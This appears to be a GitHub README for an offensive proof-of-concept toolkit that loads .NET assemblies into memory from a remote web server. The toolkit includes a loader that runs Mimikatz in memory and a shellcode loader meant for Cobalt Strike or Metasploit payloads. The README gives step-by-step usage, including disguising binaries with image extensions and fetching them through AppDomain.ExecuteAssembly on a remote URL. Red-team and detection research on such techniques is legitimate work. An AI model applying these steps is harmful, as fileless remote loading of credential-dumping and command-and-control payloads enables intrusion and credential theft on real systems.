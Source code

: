 PoC demonstrating some methods for .NET assembly local/remote loading/injection into memory using System.AppDomain.ExecuteAssembly() and System.Reflection.Assembly.LoadFrom() method (check "NetAssembly-Injection/AssemblyLoader.cs" methods documentation).

The following projects are included in the VS2015 solution:

- KatzNetAssembly: A slightly modified version of @Subtee C# PE loader for injecting/running Mimikatz in memory using C#.

- ShellCodeLoader: A shellcode loader pinvoking unmanaged code (virtualalloc, createthread and waitforsingleobject) and injecting/executing shellcode in memory,
				 It can be used for bootstraping and executing coblat strike or msf generated shellcode.

- NetAssembly-Injection: Wraps 2 methods for remote/dynamic loading and execution of .NET assemblies in memory via AppDomain.ExecuteAssembly() and Assembly.LoadFrom().
						 (the third method "Load" was already demonstrated online by @malcomvetter)


Details:

 Method 1:

	* AppDomain can be used to create a sample container/sandbox to execute .NET assemblies within a restricted/sandboxed domain, 
	  it is usually used by developers to restrict access to local/remote resources for security purposes. 
      for instance, it can be used for restricting a third-party developed/used code to access the filesystem or network shares.

	* By default .NET applications are running under the default domain which restricts accessing remote resources, 
	  nonetheless it is possible to create domains with unrestricted permission states (PermissionSet(PermissionState.Unrestricted))
      for loading remote .NET assemblies and executing their main entry point.

	* The AppDomain.ExecuteAssembly("https://remote-host/assembly.exe") method takes a URL representing our hosted .NET assembly,
	  loads it into memory and execute it. (no need to instantiate a specific type or invoke its methods, 
      by default the main entry of the assembly is invoked/executed.)
 
	* Based on MSDN, ExecuteAssembly is leveraging Assembly.LoadFile() (in the background) for assembly loading/execution.

	* Assemblies can be renamed and modified extensions can be used ex: https://remote-host/assembly.png or .js, .txt, .html ..etc.
	  (assembly.exe renamed to assembly.png)

	* More details on:
		https://docs.microsoft.com/en-us/dotnet/api/system.appdomain.executeassembly?redirectedfrom=MSDN&view=netframework-4.7.2#overloads
		https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfile?view=netframework-4.7.2


 Method 2:

	* Loads an assembly from a URL, create an instance based on a type (Class) containing a sepcific method name then invoke the method name.

	* Loading an assembly from a network location is by default now allowed due to default .NET framework CAS policy configuration, 
	 a FileLoadNotFound Exception will be thrown if '<runtime><loadFromRemoteSources enabled = "true" /></runtime>' is not specified in App.config
	 System.Reflection.Assembly.UnsafeLoadFrom() method can be used instead.

	* More detais on: 
	 https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfrom?view=netframework-4.7.2






Example - Usage: 

Example 1:

 Running Mimikatz: Build KatzNetAssembly project, copy the generated "bin/debug/KatzNetAssembly.exe" .NET assembly/binary to a remote web server, then use (NetAssembly-Injection project) Method1() or Method2() to 
 load and execute (in-memory) the remote "KatzNetAssembly.exe" binary.

Example 2:

 Generate x64 Shellcode via cobalt strike or msf, replace the shellcode byte array with your own (in ShellCodeLoader project Program.cs), build the ShellCodeLauncher project, upload 
 the resulted assembly/binary "bin/debug/ShellCodeLoader.exe" to a remote web server, then use (NetAssembly-Injection project) Method1() or Method2() for remote loading/execution.				
